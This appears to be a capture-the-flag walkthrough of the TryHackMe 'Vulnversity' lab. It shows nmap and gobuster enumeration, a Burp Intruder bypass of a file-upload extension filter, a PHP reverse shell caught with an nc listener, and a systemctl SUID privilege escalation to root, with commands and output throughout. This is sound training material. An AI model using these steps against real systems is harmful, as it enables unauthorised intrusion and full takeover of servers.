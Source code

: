 # [Vulnversity](https://tryhackme.com/room/vulnversity)

## Task 2: Reconnaissance
Gather information about this machine using a network scanning tool called `nmap`.
```
ip=10.10.124.187
ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports $ip
```
**Output:**
> ```
> Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-23 03:58 EDT
Nmap scan report for 10.10.124.187
Host is up (0.20s latency).
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: 1h20m03s, deviation: 2h18m35s, median: 2s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-06-23T03:58:50-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-06-23T07:58:50
|_  start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.15 seconds
```

- Scan the box, how many ports are open?

  *6*

- What version of the squid proxy is running on the machine?

  3.5.12

- How many ports will nmap scan if the flag -p-400 was used?

  400
- Using the nmap flag -n what will it not resolve?

  DNS
- What is the most likely operating system this machine is running?

  ubuntu
- What port is the web server running on?

  3333

## Task 3: Locating directories using GoBuster
Using a fast directory discovery tool called `GoBuster` you will locate a directory that you can use to upload a shell to.

```
gobuster -u http://$ip:3333 -w /usr/share/wordlists/dirb/common.txt -x xxa dir
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.193.119:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              xxa
[+] Timeout:                 10s
===============================================================
2021/06/23 10:13:40 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 294]
/.htaccess            (Status: 403) [Size: 299]
/.hta.xxa             (Status: 403) [Size: 298]
/.htpasswd            (Status: 403) [Size: 299]
/.htaccess.xxa        (Status: 403) [Size: 303]
/.htpasswd.xxa        (Status: 403) [Size: 303]
/css                  (Status: 301) [Size: 319] [--> http://10.10.193.119:3333/css/]
/fonts                (Status: 301) [Size: 321] [--> http://10.10.193.119:3333/fonts/]
/images               (Status: 301) [Size: 322] [--> http://10.10.193.119:3333/images/]
/index.html           (Status: 200) [Size: 33014]
/internal             (Status: 301) [Size: 324] [--> http://10.10.193.119:3333/internal/]
/js                   (Status: 301) [Size: 318] [--> http://10.10.193.119:3333/js/]
/server-status        (Status: 403) [Size: 303]

===============================================================
2021/06/23 10:16:05 Finished
===============================================================
```
- What is the directory that has an upload form page?

  /internal

## Task 4: Compromise the webserver
Now you have found a form to upload files, we can leverage this to upload and execute our payload that will lead to compromising the web server.

- Try upload a few file types to the server, what common extension seems to be blocked?

  .php

Setup your burp project and perform the upload again with intercept on. Send the intercepted request to intruder and set the attack type as `sniper attack`. Do the necessary changes in positions tab as follows
```
POST /internal/index.php HTTP/1.1
Host: 10.10.193.119:3333
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------858931554880102503911834712
Content-Length: 171027
Origin: http://10.10.193.119:3333
Connection: close
Referer: http://10.10.193.119:3333/internal/index.php
Upgrade-Insecure-Requests: 1
-----------------------------858931554880102503911834712
Content-Disposition: form-data; name="file"; filename="php-reverse-shell.§php§"
Content-Type: application/x-php
```
Now in the payloads tab set payload type as simple list and add the following extensions in the list
```
php
php3
php4
php5
phtml
```
- Run this attack, what extension is allowed?

  phtml

Now we know that phtml extension is allowed so we will upload the payloads as `.phtml`. Download the payload from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and change the ip address with my ip address. Note the port also. Save the file with `.phtml` extension. Upload it in the form. You will receve a success message.

Now start a nc listener at that port on attack machine using `nc -lvnp 1234`.

Navigate to *http://<ip>:3333/internal/uploads/shell.phtml*. You will receive a reverse shell on the nc listener.
```
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home
$ ls
bill
$ cd bill
$ ls
user.txt
$ cat user.txt

```
- What is the name of the user who manages the webserver?

  bill
- What is the user flag?

  8b\******db

## Task 5: Privilege Escalation
Now you have compromised this machine, we are going to escalate our privileges and become the superuser (root).

For finding SUID executables use the following:
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
Among all the files `systemctl` stands out. Also there is a method to get elevated access via systemctl in [GTFOBins]. Using that we will set suid enabled for /bin/bash. And then we will get the root user.
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
**Output:**
```
www-data@vulnuniversity:/home/bill$ TF=$(mktemp).service
www-data@vulnuniversity:/home/bill$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod +s /bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/home/bill$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.Hqv2A6WkEU.service to /tmp/tmp.Hqv2A6WkEU.service.
www-data@vulnuniversity:/home/bill$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.Hqv2A6WkEU.service to /tmp/tmp.Hqv2A6WkEU.service.
www-data@vulnuniversity:/home/bill$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
www-data@vulnuniversity:/home/bill$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3# ls
user.txt
bash-4.3# cd /root
bash-4.3# ls
root.txt
bash-4.3# cat root.txt
```

- On the system, search for all SUID files. What file stands out?

  /bin/systemctl
- Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?
Become root and get the last flag (/root/root.txt)

  a58\******c7fd5
